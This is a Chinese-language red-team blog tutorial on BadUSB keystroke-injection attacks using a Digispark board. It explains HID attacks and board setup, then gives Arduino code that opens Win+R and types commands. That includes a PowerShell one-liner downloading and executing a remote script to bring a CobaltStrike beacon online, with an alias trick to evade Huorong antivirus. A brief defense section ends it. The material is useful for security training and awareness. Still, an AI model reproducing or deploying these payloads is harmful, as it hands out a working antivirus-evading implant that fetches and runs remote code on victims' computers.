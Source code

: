 ```yaml
---
title: 近源渗透之BadUSB
date: 2023/10/7 19:48:25
categories:
- 渗透测试
tags:
- 近源渗透
---
```

# 原理

**诞生**

在2014年的BlackHat大会上，信息安全专家展示了一种新的网络安全威胁，这种技术被称为BadUSB，实际上是HID攻击，该漏洞由Karsten Nohl和Jakob Lell共同发现。



**HID**

HID是"Human Interface Device"的缩写，中文意为"人机接口设备"。HID是一种用于计算机和其他电子设备之间进行交互的标准化协议和接口。HID包括多种输入和输出设备，例如键盘、鼠标、游戏手柄、触摸屏、扫描仪等。这些设备通过HID协议与计算机通信，使用户能够通过这些设备与计算机进行交互操作。



**HID攻击**

一般来讲针对HID的攻击主要集中在键盘鼠标上，因为只要控制了用户键盘，基本上就等于控制了用户的电脑。攻击者会把攻击隐藏在一个正常的鼠标键盘中，当用户将**含有攻击向量的鼠标或键盘插入电脑**时，**恶意代码会被加载并执行**。



**BadUsb的结构**

BadUsb的内部结构如下

![image.png](../images/942cb02d-5333-4938-85ac-973f4c867ef4.png)

可以看到，U盘大致由两部分组成，一部分是芯片引导程序，一部分是闪存区域。

控制器负责与PC的通讯和识别，闪存用来做数据存储；

闪存中有一部分区域用来存放U盘的固件，它的作用类似于操作系统，控制软硬件交互；



**BadUsb攻击**

BadUsb的攻击与HID攻击类似，也是插入电脑后加载并执行恶意代码从而完成攻击。

BadUsb插入PC后，会模拟出一个虚拟键盘，同时执行我们事先写入到固件中的代码来敲击相应的按键，输入攻击代码从而完成一些恶意行为。



**BadUsb优势**

- 只需要使用通用的USB设备（比如U盘）就可以完成HID攻击。
- 恶意代码烧录到固件中，而这部分区域是杀毒软件无法访问的区域，因此大部分杀毒软件是根本无法应对BadUsb攻击的



**常见攻击场景**

黑客故意将写入了恶意程序的BadUsb丢在某个场所里，如果有人因为好奇心将BadUsb插入电脑中，那么其中的恶意程序就会运行，黑客从而可以控制这个人的电脑。比如护网行动，好奇的蓝方人员的电脑被红方人员以这种方式控制😨。



# 工具准备

- 某宝开发板（关键词digispark）

  ![](../images/image-20231007114326582.png)

- Ardunio IDE

  下载地址https://www.arduino.cc/en/software

  下载完后打开Arduino IDE-->文件-->首选项-->附加管理器网址：http://digistump.com/package_digistump_index.json

  ![image-20231007130123285](../images/image-20231007130123285.png)

  工具-->开发板-->开发板管理器-->安装`Digistump AVR` 软件包

  ![image-20231007130250973](../images/image-20231007130250973.png)

- Digispark驱动

  https://github.com/digistump/DigistumpArduino/releases/tag/1.6.7

- CobaltStrike



# 开发板连接

板子成功连接电脑后，可以在设备管理器中看到

![image-20231007130836961](../images/image-20231007130836961.png)

遇到一个问题就是，这玩意插上去没有显示端口，Ardunio连接不了，而且一直闪红灯😢。

经过搜索才知道, 这块板子接上电源只保持 `5s` 的连接, 然后自动运行板子内的程序。

所以正确的烧录方式是先点击上传, 等到终端提示接入设备的时候, 再接入设备烧录程序。

![image-20231007130725980](../images/image-20231007130725980.png)



# DigiKeyboard.h使用

主要利用该库来模拟键盘和鼠标输入

在github上找到了数字按键表

![KeyCodes](../images/68747470733a2f2f736372697074656c2e636f6d2f4b6579626f617264456d756c6174696f6e4150492f4a6176615363726970742f696d616765732f6b6579626f6172642d6964656e746966696572732e706e67)

预设常量

https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h

常用函数

```c
DigiKeyboard.println("text"); # 用于向模拟键盘发送文本并在计算机上输入一行字符并自动在末尾添加一个回车符

DigiKeyboard.sendKeyStroke(key); # 用于模拟按下和释放一个指定的按键

DigiKeyboard.delay(ms) # 用于在执行后续操作前暂停一段时间，单位为毫秒
```





# 弹计算器

Arduino代码

```c
#include "DigiKeyboard.h"
String a;
String b;
String c;

void setup() {
DigiKeyboard.sendKeyStroke(0);

DigiKeyboard.delay(300);
DigiKeyboard.sendKeyStroke(57); // 开启CapsLock大写锁定键绕过中文输入法问题(windows大小写不敏感)
DigiKeyboard.delay(300);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // 按下Win+R键
DigiKeyboard.delay(800);
DigiKeyboard.println("calc"); // 打开计算器
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(57); // 关闭CapsLock大写锁定键
 
}

void loop() {
   
}
```

![动画](../images/动画.gif)



# PowerShell  Bypass火绒上线CS

[干货 | 我的powershell免杀之路 (qq.com)](https://mp.weixin.qq.com/s/5Bx9fYiI_mK2yimSsDyhoA)

原始payload

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.23.102:8000/one_liner.ps1'))"
```

![image-20231007134142125](../images/image-20231007134142125.png)

Bypass

```powershell
powershell set-alias -name kaspersky -value Invoke-Expression;kaspersky(New-Object Net.WebClient).DownloadString('http://192.168.23.102:8000/one_liner.ps1')
```

转化为Arduino代码

```c
#include "DigiKeyboard.h"
String a;
String b;
String c;

void setup() {
DigiKeyboard.sendKeyStroke(0);

DigiKeyboard.delay(300);
DigiKeyboard.sendKeyStroke(57);//开启CapsLock大写锁定键
DigiKeyboard.delay(300);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//按下Win+R键
DigiKeyboard.delay(800);
DigiKeyboard.println("powershell set-alias -name kaspersky -value Invoke-Expression;kaspersky(New-Object Net.WebClient).DownloadString('http://192.168.23.102:8000/one_liner.ps1')");
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(57);//关闭CapsLock大写锁定键
 
}

void loop() {
   
}
```

![22](../images/22.gif)



# 防御

由于恶意代码内置于设备初始化固件中，而不是通过autorun.inf等媒体自动播放文件进行控制，因此无法通过禁用媒体自动播放进行防御，杀毒软件更是无法检测设备固件中的恶意代码。目前也没有什么有效的方式去防御BadUSB，毕竟无法阻挡电脑去识别键盘鼠标此类的HID设备。所以说针对BadUSB的防御方法还是在于人员的安全意识上，当发现可疑的U盘时切莫因好奇插入自己的电脑。